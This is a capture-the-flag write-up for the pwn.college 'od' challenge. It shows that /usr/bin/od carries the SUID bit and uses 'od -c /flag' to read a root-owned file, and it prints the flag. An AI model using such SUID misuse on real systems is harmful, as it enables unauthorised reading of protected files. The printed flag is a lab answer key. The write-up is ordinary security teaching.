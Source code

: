 # Challenge Name: od
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/od`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/od
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/od
```

-The `s` in `-rws` indicates it's a SUID binary.
-`od` runs with **root privileges**.

## 🚀 Exploitation

The `od`  stands for Octal Dump, but it's a powerful tool to view raw byte-level representations of files — in hex, octal, decimal, ASCII, and more.

Basic Syntax of od:
```
od [options] filename
```
there are two helpful options, which can reveal the contents of a file:

| Option   | Description                        |
|----------|------------------------------------|
| `-c`     | Display ASCII characters           |
| `-t a`   | Display named characters           |

```bash
od -c /flag
```

Output:
```
0000000   p   w   n   .   c   o   l   l   e   g   e   {   o   B   o   C
0000020   z   H   t   9   l   X   k   W   t   F   u   9   P   o   v   U
0000040   A   _   p   j   m   K   7   .   d   N   T   N   x   w   S   M
0000060   0   I   z   M   y   E   z   W   }  \n
0000072
```

      
